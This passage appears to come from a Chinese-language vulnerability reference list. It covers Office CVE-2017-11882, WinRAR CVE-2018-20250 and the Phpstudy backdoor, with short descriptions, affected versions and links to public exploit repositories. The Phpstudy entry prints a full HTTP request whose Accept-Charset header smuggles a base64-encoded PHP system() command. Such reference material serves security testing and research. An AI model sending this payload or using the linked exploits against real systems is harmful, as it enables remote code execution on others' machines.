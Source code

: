 - POC | Payload | exp
    - [Lz1y/CVE-2017-8759](https://github.com/Lz1y/CVE-2017-8759)

**CVE-2017-11882**
- 简介

    Microsoft Office 中存在远程代码执行漏洞，该漏洞源于程序没有正确的处理内存中的对象。远程攻击者可借助特制的文件利用该漏洞在当前用户的上下文中执行任意代码。

- 影响版本
    - Microsoft Office 2007 SP3
    - Microsoft Office 2010 SP2
    - Microsoft Office 2013 SP1
    - Microsoft Office 2016

- POC | Payload | exp
    - [Ridter/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)
    - [embedi/CVE-2017-11882](https://github.com/embedi/CVE-2017-11882)

## WinRAR

WinRAR 是一款文件压缩器。该产品支持 RAR、ZIP 等格式文件的压缩和解压等。

**CVE-2018-20250**
- 简介

    WinRar 中存在目录遍历漏洞。该漏洞源于 WinRAR 在解压处理 ACE 格式的文件过程中，未对 ACE 文件头结构中的“filename”字段进行充分过滤。攻击者可利用该漏洞以提升的权限执行任意代码。

- 文章
    - [Extracting a 19 Year Old Code Execution from WinRAR - Check Point Research](https://research.checkpoint.com/extracting-code-execution-from-winrar/)

- POC | Payload | exp
    - [WyAtu/CVE-2018-20250](https://github.com/WyAtu/CVE-2018-20250)
    - [Ridter/acefile](https://github.com/Ridter/acefile)

**WinRAR 5.80 XML 注入漏洞和拒绝服务攻击漏洞**
- POC | Payload | exp
    - https://mrxn.net/Infiltration/641.html

## Phpstudy

**Phpstudy 后门 RCE**
- POC | Payload | exp
    ```
    GET /1.php HTTP/1.1
    Host: example.com
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.9
    Accept-Encoding:gzip,deflate
    Accept-Charset:这里就是要执行的命令base64加密 c3lzdGVtKCdjYWxjLmV4ZScpOw==
    Cookie: UM_distinctid=16ae380e49f27e-0987ab403bca49-3c604504-1fa400-16ae380e4a011b; CNZZDATA3801251=cnzz_eid%3D1063495559-1558595034-%26ntime%3D1559102092; CNZZDATA1670348=cnzz_eid%3D213162126-1559207282-%26ntime%3D1559207282
    Connection: close
    ```
